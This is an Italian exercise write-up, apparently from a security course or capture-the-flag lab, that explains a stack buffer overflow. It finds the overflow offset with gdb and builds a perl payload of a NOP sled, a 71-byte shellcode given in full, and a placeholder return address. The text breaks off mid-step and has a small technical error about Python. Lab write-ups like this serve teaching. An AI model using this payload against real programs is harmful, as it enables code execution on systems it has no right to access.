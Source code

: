 # Shellcode

## Consegna

```
```

## Soluzione

Ok preparatevi perché il processo di questo è molto lungo. 
Allora, prima di tutto, ancora una volta ci tocca trovare il numero di caratteri per cui otteniamo un SegFault, e dobbiamo fare in modo che questo segfault sia causato da un indirizzo che "possiamo controllare".

Dunque, per fare ciò, ci comportiamo esattamente come per l'esercizio secret_function, e procediamo per prova ed errore. 
Inizialmente il mio payload era `$(perl -e 'print "A"xN, "BBBB"')`, e vogliamo fare in modo che gdb ci mostri, nell'indirizzo di ritorno che ha causato il SIGSEV, `0x42424242` (che sarebbe la codifica in byte di BBBB). 

Dopo vari tentativi, noteremo che questo valore è appunto N=1512. 

Bene, adesso allora dovremo fare delle altre cose. 
Prima di tutto, cambiamo il valore di "A" con dei byte NOOP, che vengono ignorati quando eseguiti. Otterremmo così `$(perl -e 'print "\x90"x1512, "BBBB"')`.
Dopodiché, prendiamo il codice di shellcode che ci viene fornito, e ne misuriamo la lunghezza con la funzione `len` del compilatore JIT di python3.  
```bash
$ python3 
>>> len(b'\xbf\x16\x6e\x8a\x7c\xdd\xc3\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x0c\x31\x7a\x12\x03\x7a\x12\x83\xd4\x6a\x68\x89\xb2\x79\x34\xeb\x10\x18\xac\x26\xf7\x6d\xcb\x51\xd8\x1e\x7c\xa2\x4e\xce\x1e\xcb\xe0\x99\x3c\x59\x14\x90\xc2\x5e\xe4\xd6\xac\x3f\x89\x7d\x11\xed\x30\x7e\x06\xbe\x3b\x9f\x65\xc0')
```

Il codice ci ritornerà 71. 
Dunque, dobbiamo ricalcolare il payload in modo che "faccia spazio" alla shellcode. Otterremo così:
```
$(perl -e 'print "\x90"x(1512-71),"\xbf\x16\x6e\x8a\x7c\xdd\xc3\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x0c\x31\x7a\x12\x03\x7a\x12\x83\xd4\x6a\x68\x89\xb2\x79\x34\xeb\x10\x18\xac\x26\xf7\x6d\xcb\x51\xd8\x1e\x7c\xa2\x4e\xce\x1e\xcb\xe0\x99\x3c\x59\x14\x90\xc2\x5e\xe4\xd6\xac\x3f\x89\x7d\x11\xed\x30\x7e\x06\xbe\x3b\x9f\x65\xc0", "BBBB"')
```

Abbiamo ancora una cosa da fare, ovvero ottenere l'indirizzo di ritorno. 
Per farlo, consiglio prima di tutto di riavviare gdb salvando il payload attuale da qualche parte, poi contrallare quale sia il nome della funzione vulnerabile che viene chiamata attraverso il comando `info functions` (nel nostro caso la funzione vulnerabile si chiama `vuln`), e poi inserire

_WARNING_: Quando gdb ritorna come errore "File too long", e non ti riesci a spiegare perché, semplicemente salvati il payload, riavvia gdb e riscrivilo.  